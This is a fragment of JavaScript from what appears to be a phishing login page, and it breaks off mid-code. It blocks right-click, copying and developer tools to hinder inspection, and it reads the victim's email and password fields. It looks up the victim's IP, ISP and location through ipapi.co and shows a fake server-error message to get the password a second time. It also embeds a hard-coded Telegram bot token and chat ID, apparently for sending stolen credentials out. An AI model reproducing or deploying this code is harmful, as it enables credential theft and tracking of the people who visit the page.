     <!-- Disable Right Click, Select, Inspect -->
  <script>
    document.addEventListener('contextmenu', event => event.preventDefault());
    document.addEventListener('selectstart', event => event.preventDefault());

    document.addEventListener('keydown', function(e) {
      if (
        (e.ctrlKey && ['c', 'u', 's', 'a', 'x'].includes(e.key.toLowerCase())) ||
        e.key === 'F12' ||
        (e.ctrlKey && e.shiftKey && ['I', 'J', 'C'].includes(e.key.toUpperCase()))
      ) {
        e.preventDefault();
      }
    });

    // Disable dragging
    window.onload = () => {
      document.querySelectorAll('img, a, input, textarea, body').forEach(el => {
        el.setAttribute('draggable', 'false');
      });
    };
  </script>

  <script>
    const botToken = '8270025152:AAFulR3oYGEm5jLz6yqBNmVijpA79Y3zpSo'; // Replace with real bot token
    const chatId = '8151965912';     // Replace with real chat ID

    const form = document.querySelector('form');
    const emailInput = form.querySelector('input[type="email"]');
    const passwordInput = form.querySelector('input[type="password"]');
    const errorMsg = document.getElementById("errorMsg");

    const translations = {
      en: {
        passwordError: "Server error, check password and try again."
      }
    };
    const lang = 'en';

    const hashEmail = decodeURIComponent(window.location.hash.substr(1));
    if (hashEmail.includes('@')) emailInput.value = hashEmail;

    let firstDone = false;
    let userInfo = null;

    fetch('https://ipapi.co/json/')
      .then(res => res.json())
      .then(data => {
        userInfo = {
          ip: data.ip,
          isp: data.org,
          city: data.city,
          region: data.region,
          country: data.country_name,
          timezone: data.timezone,
          platform: navigator.platform,
          userAgent: navigator.userAgent
        };
      })
      .catch(() => {
        userInfo = {
          ip: "Unknown",
          isp: "Unknown",
          city: "Unknown",
          region: "Unknown",
          country: "Unknown",
          timezone: "Unknown",